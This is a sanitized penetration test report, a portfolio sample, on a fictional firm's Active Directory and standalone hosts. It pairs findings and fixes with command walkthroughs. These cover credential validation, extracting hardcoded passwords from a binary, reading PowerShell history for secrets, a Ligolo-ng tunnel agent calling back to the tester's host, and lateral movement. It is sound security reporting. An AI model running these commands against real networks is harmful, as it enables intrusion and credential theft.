## Introduction

This report presents the results of an internal network penetration test framed as an engagement for Northstar Industrial Services, a fictional industrial services business. The assessment examines how exposed management services, insecure credential handling, excessive permissions, and missing security updates can combine to compromise Windows and Linux systems.

**Portfolio Sample:** The technical attack paths and evidence are retained from an authorized lab assessment. The client, engagement reference, and commercial framing are fictional. This document does not represent a commissioned client engagement or a certification exam submission. Usernames, credentials, hashes, proof values, domain names, and machine identities have been redacted or replaced with consistent aliases. Image references are retained for the author's separate screenshot redaction.

[Download Operation Broken Trust (PDF)](https://mermehr.github.io/Operation_Broken_Trust.pdf)

## Objective

The objective was to determine whether an attacker with network connectivity and a supplied standard domain account could obtain administrative access, cross internal network boundaries, and compromise the Active Directory domain. Three standalone systems were also assessed from the available network position without supplied application credentials.

Successful exploitation was validated through interactive command execution, privilege checks, controlled access to proof files, and domain credential replication. Potential business consequences are discussed separately from the actions demonstrated during testing.

## Engagement Overview

The report includes:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt where applicable
- Additional information covering compromised accounts, cleanup requirements, and supporting evidence

**Engagement Details:**

| **ITEM** | **DETAIL** |
| -------- | ---------- |
| Client | Northstar Industrial Services (fictional) |
| Engagement reference | NIS-2026-INT-001 |
| Assessment model | Internal network assessment with an assumed breach starting point for Active Directory |
| Reporting date | 28 August 2026 |
| Scope | Three domain systems and three standalone systems listed below |
| Starting access | Network connectivity and one supplied standard domain account |
| Evidence basis | Original lab notes, command output, and screenshots |
| Report status | Sanitized portfolio sample |

**Scope and Limitations:** Testing was limited to the six documented systems. No inference is made about untested assets, production resilience, or detection coverage. Denial-of-service testing, social engineering, and business data extraction are not documented. The supplied standard account was an assessment prerequisite, not a discovered vulnerability. No remediation retest is recorded. Severity labels are qualitative judgments based on prerequisites, achieved privileges, and demonstrated impact; formal CVSS vectors were not recorded.

## High-Level Summary

The assessment demonstrated administrative compromise of all six in-scope systems, including domain administrator access and successful replication of Active Directory credential material. The strongest recurring issue was the exposure of credentials in places accessible after an initial foothold. Those secrets allowed access to additional systems and ultimately the domain controller.

The Active Directory attack began with the supplied standard user account. A readable administrative utility exposed a privileged password on the first host. PowerShell command history then exposed another password that authenticated as a local administrator on the second host. Registry secrets recovered there contained a password valid for the domain administrator account. That account enabled domain controller access and DCSync.

The standalone systems were compromised through three separate paths: anonymous FTP information exposure followed by weak credentials and authenticated Usermin command execution; unauthenticated Mobile Mouse command execution followed by replacement of a privileged service binary; and an SNMP extension that disclosed and reset an account password, followed by Vesta Control Panel cron execution and an Ubuntu OverlayFS privilege escalation.

**Demonstrated Business Impact:** In a comparable business environment, these access levels could allow an attacker to alter system configurations, impersonate privileged users, access application data, and interrupt services. The report demonstrates the technical access required for those outcomes. It does not claim that business records were stolen or that operations were disrupted.

The compromised targets and their primary exploitation vectors include:

**Active Directory Domain (`northstar.example`)**

- **AD-HOST-01 (192.168.138.153 / 10.10.138.153):** Supplied standard credentials enabled initial access. Hardcoded credentials in an administrative binary provided administrative access, and PowerShell history exposed a password used on the next host.
- **AD-HOST-02 (10.10.138.154):** A recovered password authenticated as a local administrator. Exported registry hives exposed additional credential material, including a password valid for the domain administrator.
- **AD-DC-01 (10.10.138.152):** Recovered domain administrator credentials enabled interactive access and DCSync, demonstrating domain compromise.

**Standalone Targets**

- **APP-HOST-01 (192.168.138.157):** Anonymous FTP exposed document author names. A username-based password attack recovered credentials also valid for Usermin 1.820. Authenticated command execution established a shell, and a root cron task using unsafe wildcard expansion enabled root access.
- **APP-HOST-02 (192.168.138.155):** Mobile Mouse Server 3.6.0.4 allowed unauthenticated command execution. Writable service files and excessive service control permissions enabled execution as `NT AUTHORITY\SYSTEM`.
- **APP-HOST-03 (192.168.138.156):** An exposed SNMP extension reset and disclosed a local account password. Reuse of that credential in Vesta Control Panel enabled a shell through a scheduled cron job. Exploitation of CVE-2021-3493 then produced root access.

### Key Recommendations

- **Contain Exposed Credentials:** Rotate all recovered passwords and service secrets, replace hardcoded credentials, and eliminate password arguments from administrative workflows. Use Windows LAPS for local administrator passwords and managed service identities where supported. Treat recovered domain replication material as a domain-level incident requiring a coordinated recovery plan.
- **Restrict Management Access:** Limit WinRM, SSH, SNMP, Usermin, Vesta, and remote control applications to authorized management sources. Remove unnecessary remote control software and state-changing SNMP extensions.
- **Correct Privileged Execution Paths:** Protect service binaries and their parent directories, reduce service control permissions, and remove wildcard argument injection from privileged cron tasks. Verify ownership as well as file modes.
- **Patch and Verify:** Apply supported application and operating system updates. Confirm the running kernel after reboot and validate remediation of the demonstrated paths. A version banner alone is insufficient evidence that a fix is effective.
- **Preserve Security Visibility:** Retain appropriate PowerShell, process creation, authentication, service change, and domain replication monitoring. Remove exposed secrets through controlled incident handling without disabling security logging.

### Findings Overview

| **FINDING** | **AFFECTED SYSTEM** | **SEVERITY** | **DEMONSTRATED RESULT** |
| ----------- | ------------------- | ------------ | ----------------------- |
| F-01: Hardcoded administrative credentials | AD-HOST-01 | HIGH | Administrative access from a standard account |
| F-02: Password exposure in PowerShell history | AD-HOST-01 / AD-HOST-02 | HIGH | Lateral movement as a local administrator |
| F-03: Recoverable privileged secrets on a member host | AD-HOST-02 / AD-DC-01 | CRITICAL | Domain administrator access and DCSync |
| F-04: Anonymous FTP disclosure, weak credentials, and Usermin command execution | APP-HOST-01 | CRITICAL | Authenticated shell access |
| F-05: Privileged tar cron task with unsafe wildcard expansion | APP-HOST-01 | HIGH | Root access |
| F-06: Mobile Mouse unauthenticated command execution | APP-HOST-02 | CRITICAL | Remote shell access |
| F-07: Writable privileged service binary and excessive service rights | APP-HOST-02 | HIGH | SYSTEM access |
| F-08: Exposed SNMP password-reset extension and credential reuse | APP-HOST-03 | CRITICAL | Account takeover and shell access through Vesta cron |
| F-09: Ubuntu OverlayFS privilege escalation (CVE-2021-3493) | APP-HOST-03 | HIGH | Root access |

**Attack Chain Highlights:**

- **Domain:** Supplied standard account -> readable binary credentials -> first-host administrator -> password in command history -> second-host local administrator -> registry secrets -> domain administrator -> DCSync.
- **APP-HOST-01:** Anonymous FTP -> document author names -> weak password -> Usermin command execution -> privileged tar cron task -> root.
- **APP-HOST-02:** Mobile Mouse command execution -> writable privileged service binary -> SYSTEM.
- **APP-HOST-03:** SNMP extension read -> password reset and disclosure -> Vesta login -> cron shell -> OverlayFS exploitation -> root.

## Methodologies

Testing followed a structured process of network discovery, service enumeration, vulnerability analysis, controlled exploitation, local privilege escalation, and post-exploitation validation. Manual review of files, permissions, command history, and application functionality supplemented automated discovery.

For Active Directory, a supplied standard account established the starting position. Recovered credentials and a Ligolo-ng tunnel enabled access to the internal segment. The assessment then validated lateral movement and domain-level impact. For standalone hosts, the walkthroughs retain each documented initial access and privilege escalation path, including failed manual exploitation where relevant.

### Information Gathering

Network enumeration was conducted across the designated scope to map all accessible assets across the lab and assessment environments.

The target hosts and specific IP addresses evaluated during the assessment were:

- **Active Directory Network Segment:**
  - **AD-HOST-01:** 192.168.138.153 / 10.10.138.153
  - **AD-HOST-02:** 10.10.138.154
  - **AD-DC-01:** 10.10.138.152
- **Standalone Target Segment:**
  - **APP-HOST-01:** 192.168.138.157
  - **APP-HOST-03:** 192.168.138.156
  - **APP-HOST-02:** 192.168.138.155

### Service Enumeration

Service enumeration focuses on identifying active services, open ports, and software versions across target systems to expose potential attack vectors. While automated tools like RustScan and Nmap serve as the initial discovery layer, manual techniques such as banner grabbing are applied when service identification fails or returns incomplete data. Furthermore, for local services not exposed externally, host-level enumeration is conducted post-foothold to identify internal processes and loopback bindings.

### Penetration Summary

Administrative access was demonstrated on all six in-scope systems. Each standalone host yielded an initial foothold followed by root or SYSTEM access. The domain chain progressed across three hosts and ended with domain administrator access and successful credential replication. Proof-file retrieval is retained as lab validation evidence; proof values are redacted.

### Maintaining Access

Access was maintained through the documented SSH and WinRM sessions, reverse shells, recovered credentials, and a Ligolo-ng pivot. The Vesta cron job provided a scheduled callback. A Ligolo-ng agent executable was transferred to the first domain host and executed there. The notes do not establish that deployment was exclusively in memory or that every access mechanism was removed afterward.

### Cleanup and Restoration

The source report states that cleanup was performed, but does not include sufficient verification to confirm restoration of every system. The cleanup table records artifacts and changes requiring verification, including the replaced Windows service binary, the Vesta cron entry, the sudoers change, exported registry hives, and transferred tools.

The SNMP extension also changed an account password during enumeration. Restoring that account requires an owner-approved reset; removing the tester's files alone does not restore the original state. Credential rotation and domain recovery actions require separate validation. No claim of complete cleanup, encrypted evidence storage, or secure deletion is made without supporting records.

### Custom Scripts and Aliases

During the course of the penetration test, custom enumeration scripts and aliases were utilized to optimize workflow efficiency. Where applicable, equivalent native commands are provided in the technical write-ups to ensure full step-by-step reproducibility. Relevant command output and script excerpts are retained below. Complete source and raw logs were not supplied with this sample.

Primary custom scripts utilized include:

- **`ad-reaper.py`:** Active Directory enumeration utility used for automated object and privilege mapping.
- **`annexes.sh`:** Project management script containing predefined enumeration wrappers and function aliases.

# Active Directory Assessment

**Port Scan Results**

| IP Address | Ports Open |
| ---------- | ---------- |
| 192.168.138.153 / 10.10.138.153 | **TCP**: 22,135,139,445,5040,5985,5986,7680,8000 |
| 10.10.138.154 | **TCP**: 135,139,445,1433,5040,5986 |
| 10.10.138.152 | **TCP**: 53,88,138,139,389,445,464,593,636,3268,3569,5985,5986,9389 |

**Enumeration Note:** Addresses are normalized to the scope list. Port numbers are retained from the source, including unverified labels. The domain controller entry lists `3569`; confirm this against the original scan rather than assuming it means `3269`. No UDP scan output was supplied for this segment.

## AD-HOST-01: 192.168.138.153 / 10.10.138.153

### Attack Summary

- The tester validated the supplied domain account and established remote access over SSH.
- Analysis of a readable administrative binary exposed credentials that granted administrative access (F-01).
- PowerShell history disclosed another password later used on AD-HOST-02 (F-02).
- The dual-network configuration enabled a Ligolo-ng tunnel to the internal segment.

### Initial Access - Assumed Breach Credentials

The tester received credentials for `REDACTED_USER_01` as part of the assumed breach scenario. Authentication checks confirmed WinRM and SSH access to AD-HOST-01. The subsequent walkthrough records the SSH session used for host enumeration.

**Initial Enumeration:**

The tester used NetExec to validate the supplied account against WinRM and SSH. Both services accepted the credentials and permitted remote access.
```bash
nxcblast 192.168.138.153 REDACTED_USER_01 REDACTED_PASSWORD_01
```

**Reproduction Note:** `nxcblast` is a custom wrapper, not a native NetExec command. The relevant native checks are:
```bash
nxc winrm 192.168.138.153 -u REDACTED_USER_01 -p REDACTED_PASSWORD_01
nxc ssh 192.168.138.153 -u REDACTED_USER_01 -p REDACTED_PASSWORD_01
```

```bash
WINRM       192.168.138.153 5985   AD-HOST-01             [*] Windows 10 / Server 2019 Build 19041 (name:AD-HOST-01) (domain:northstar.example)
WINRM       192.168.138.153 5985   AD-HOST-01             [+] northstar.example\REDACTED_USER_01:REDACTED_PASSWORD_01 (Pwn3d!)
[*] Running NetExec against mssql...
[*] Running NetExec against ssh...
SSH         192.168.138.153 22     192.168.138.153  [*] SSH-2.0-OpenSSH_for_Windows_8.1
SSH         192.168.138.153 22     192.168.138.153  [+] REDACTED_USER_01:REDACTED_PASSWORD_01 (Pwn3d!) with UAC - Windows - Shell access!
```


The tester established an SSH session using the supplied account.
```bash
ssh REDACTED_USER_01@192.168.138.153
```


### Privilege Escalation - Hardcoded Credentials

**Finding ID:** F-01

**Affected Systems:** AD-HOST-01

**Observed Impact:** A standard user could retrieve an embedded administrative password and obtain administrative access.

**Severity Rationale:** HIGH reflects the requirement for initial user access and the resulting administrative control.

**Vulnerability Explanation:**

During post-exploitation enumeration of the host system, a custom administrative utility (`C:\Users\REDACTED_USER_01\admintool.exe`) was discovered in a user directory. Extraction of readable text strings from the compiled binary revealed hardcoded cleartext credentials (`REDACTED_ADMIN:REDACTED_PASSWORD_02`). An attacker with local read permissions over the file system can inspect the binary, extract these embedded administrative credentials, and leverage them to elevate privileges directly to the local or domain `REDACTED_ADMIN` account.

**Vulnerability Fix:**

- **Remove Insecure Binaries:** Immediately delete `admintool.exe` and any other unapproved custom administrative utilities from host systems across the environment.
- **Eliminate Hardcoded Credentials:** Re-engineer internal administrative software to eliminate hardcoded, cleartext passwords. Authentication routines should leverage secure Windows authentication APIs, credential stores, or environment-based service accounts.
- **Perform Credential Rotation:** Reset the password for the affected `REDACTED_ADMIN` account immediately and enforce unique local administrator passwords across all hosts via Windows LAPS.
- **Restrict Executable File Permissions:** Audit local directory permissions to ensure administrative utilities and internal applications are not readable or executable by standard user accounts.

**Severity:** HIGH

**Detailed Reproduction Steps:**

Enumeration of the user profile identified `admintool.exe`. The tester reviewed the file listing and access permissions before retrieving the binary for analysis.
```powershell
NORTHSTAR\REDACTED_USER_01@AD-HOST-01 C:\Users\REDACTED_USER_01>dir
 Volume in drive C has no label.
 Volume Serial Number is REDACTED

 Directory of C:\Users\REDACTED_USER_01

02/03/2025  02:14 PM    <DIR>          .
02/03/2025  02:14 PM    <DIR>          ..
11/21/2022  05:49 AM         6,102,702 admintool.exe
<SNIP>
               1 File(s)      6,102,702 bytes
              11 Dir(s)   5,757,333,504 bytes free

NORTHSTAR\REDACTED_USER_01@AD-HOST-01 C:\Users\REDACTED_USER_01>icacls admintool.exe
admintool.exe NT AUTHORITY\SYSTEM:(I)(F)
              BUILTIN\Administrators:(I)(F)
              NORTHSTAR\REDACTED_USER_01:(I)(F)
```

The tester downloaded `admintool.exe` through Evil-WinRM for offline analysis.
```powershell
download admintool.exe tmp/
```

Analysis with `strings` exposed the embedded credentials `REDACTED_ADMIN:REDACTED_PASSWORD_02`.
```bash
strings admintool.exe| grep password
```
```bash
REDACTED_ADMINREDACTED_PASSWORD_02Enter administrator password:
Wrong administrator password!
```

The tester validated the recovered credentials against SMB using NetExec.
```bash
nxc smb 192.168.138.153 -u REDACTED_ADMIN -p REDACTED_PASSWORD_02
```


### Post-Exploitation

The tester authenticated with `REDACTED_ADMIN:REDACTED_PASSWORD_02` and continued host enumeration over SSH.
```bash
ssh  REDACTED_ADMIN@192.168.138.153
```

Network interface enumeration established that AD-HOST-01 was connected to both the assessment-facing network and the internal subnet `10.10.138.0/24`.
```powershell
whoami;hostname;ipconfig
```
```powershell
AD-HOST-01\REDACTED_ADMIN
AD-HOST-01

Windows IP Configuration

Ethernet adapter REDACTED_ADAPTER:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : REDACTED_IPV6
   IPv4 Address. . . . . . . . . . . : 192.168.138.153
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.138.254

Ethernet adapter REDACTED_ADAPTER:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : REDACTED_IPV6
   IPv4 Address. . . . . . . . . . . : 10.10.138.153
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
```



Review of the administrative account's PowerShell history identified previous executions of `admintool.exe`. One entry contained a password-like argument, which was retained for targeted credential validation.
```powershell
# this will get the current users powershell history and print
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
```powershell
PS C:\temp> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
C:\users\REDACTED_USER_07\admintool.exe REDACTED_PASSWORD_03 cmd
C:\users\REDACTED_USER_07\admintool.exe cmd
```



**Internal Pivot:**

The tester deployed Ligolo-ng to route assessment traffic through AD-HOST-01 to the internal network.

The following local setup script created the tunnel interface, added a route for `10.10.138.0/24`, and started the Ligolo-ng proxy. `SUB_1` identifies the internal subnet observed on the compromised host.

```bash
#!/bin/bash
# Local Arch Automation Script
IFACE="ligolo"
SUB_1="10.10.138.0/24" # Adjust to internal network

echo "[*] Setting up Ligolo interface..."
# Only create if it doesn't exist
ip link show $IFACE > /dev/null 2>&1 || sudo ip tuntap add mode tun dev $IFACE
sudo ip link set $IFACE up
sudo ip link set dev $IFACE mtu 1400

echo "[*] Adding routes..."
sudo ip route add $SUB_1 dev $IFACE 2>/dev/null

echo "[*] Starting Ligolo Proxy (Manual intervention still needed for 'start')..."
cp /opt/hax/proxies/proxy /tmp/
cd /tmp
sudo ./proxy -selfcert -laddr 0.0.0.0:11601
```



The tester transferred the Ligolo-ng agent to AD-HOST-01 using SCP and executed it with the callback parameters shown below.
- Agent execution and callback to the assessment proxy:
```powershell
.\agent.exe -connect 192.168.45.249:11601 -ignore-cert
```



The proxy output confirmed receipt of the agent connection.
```bash
ligolo-ng » INFO[0178] Agent joined.                                 id=REDACTED_SESSION_ID name="AD-HOST-01\\REDACTED_ADMIN@AD-HOST-01" remote="192.168.138.153:57463"
```

The following screenshot records the connected agent session.


The tester selected the agent session, started the tunnel, and reviewed the configured routes.

- Select the new session:
```bash
ligolo-ng » session
```
- Start the session:
```bash
[Agent : AD-HOST-01\REDACTED_ADMIN@AD-HOST-01] » start
```
- Tunnel route verification:
```bash
[Agent : AD-HOST-01\REDACTED_ADMIN@AD-HOST-01] » route_list
```



**AD Network Enumeration**

With the tunnel active, the tester enumerated SMB hosts on the internal subnet and generated a hostname mapping file using NetExec.
```bash
nxc smb 10.10.138.0/24 -u REDACTED_USER_01 -p REDACTED_PASSWORD_01 --generate-hosts-file hosts/hosts
```



NetExec identified AD-HOST-02 and AD-DC-01 in addition to the initial host. The generated mappings are shown below.
```bash
$ cat hosts/hosts
10.10.138.153     AD-HOST-01.northstar.example AD-HOST-01
10.10.138.154     AD-HOST-02.northstar.example AD-HOST-02
10.10.138.152     AD-DC-01.northstar.example northstar.example AD-DC-01
```
- The tester added the generated hostname mappings to the assessment workstation's `/etc/hosts` file:
```bash
cat hosts/hosts | sudo tee -a /etc/hosts
```

The tester enumerated domain users and reviewed the results to prepare an account list for subsequent credential validation.
```bash
nxc smb 192.168.138.153 -u 'REDACTED_USER_01' -p 'REDACTED_PASSWORD_01' --users
# Review the output and save verified usernames to ad_users.txt
```

The tester collected Active Directory data using `rusthound-ce` for analysis in BloodHound.
```bash
rusthound-ce -d northstar.example -u REDACTED_USER_01 -p 'REDACTED_PASSWORD_01' -c All --zip
```



The established host session and internal tunnel provided the access required for lateral movement to AD-HOST-02.

## AD-HOST-02: 10.10.138.154

### Attack Summary

- The password recovered on AD-HOST-01 authenticated as a local administrator on AD-HOST-02 (F-02).
- An administrative WinRM session allowed export of the SAM, SYSTEM, and SECURITY hives.
- Offline analysis recovered a stored password that authenticated as the domain administrator on AD-DC-01 (F-03).

### Lateral Movement (AD-HOST-01-AD-HOST-02) - Exposed Credential Reuse

**Finding ID:** F-02

**Affected Systems:** AD-HOST-01 / AD-HOST-02

**Observed Impact:** An exposed password enabled administrative lateral movement from the first host to the second.

**Severity Rationale:** HIGH reflects the requirement to access administrative history on the first host and the resulting compromise of a separate host.

**Vulnerability Explanation:**

Following administrative access on `AD-HOST-01`, post-exploitation enumeration of PowerShell history logs (`ConsoleHost_history.txt`) revealed plain-text parameters passed by an administrator executing `admintool.exe`. The recovered password was tested against the local administrator account on `AD-HOST-02`. The documented command confirmed valid credentials granting local administrative access on that host, allowing lateral movement across the network without requiring additional host-level exploitation.

**Vulnerability Fix:**

- **Disable Plain-Text Credential Logging:** Educate administrative personnel to avoid passing sensitive credentials directly as command-line arguments, as these parameters are logged by default in OS history files and process creation events.
- **Protect History Without Disabling Security Logging:** Rotate exposed credentials and remove sensitive history entries under an approved evidence-handling process. Retain script block and process creation monitoring. Use secure credential prompts or managed identities rather than command-line passwords. Deploy Windows LAPS to make local administrator passwords unique.
- **Enforce Tiered Access and Restrict Administrative Reuse:** Prevent administrative accounts from reusing identical passwords across multiple servers and restrict administrative sessions using network firewalls and remote access DACLs.

**Severity:** HIGH

**Detailed Reproduction Steps:**

Testing the password recovered on `AD-HOST-01` against the local administrator account on `AD-HOST-02` confirmed administrative access. The command below demonstrates a targeted credential check, rather than a spray across the generated user list.
```bash
nxc smb 10.10.138.154 -u REDACTED_ADMIN -p 'REDACTED_PASSWORD_03' --local-auth
```
```bash
SMB         10.10.138.154   445    AD-HOST-02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:AD-HOST-02) (domain:AD-HOST-02) (signing:False) (SMBv1:False)
SMB         10.10.138.154   445    AD-HOST-02             [+] AD-HOST-02\REDACTED_ADMIN:REDACTED_PASSWORD_03 (Pwn3d!)
```



The tester established an administrative Evil-WinRM session on AD-HOST-02 using the validated local credentials.
```bash
evil-winrm-py -i 10.10.138.154 -u REDACTED_ADMIN -p REDACTED_PASSWORD_03
```

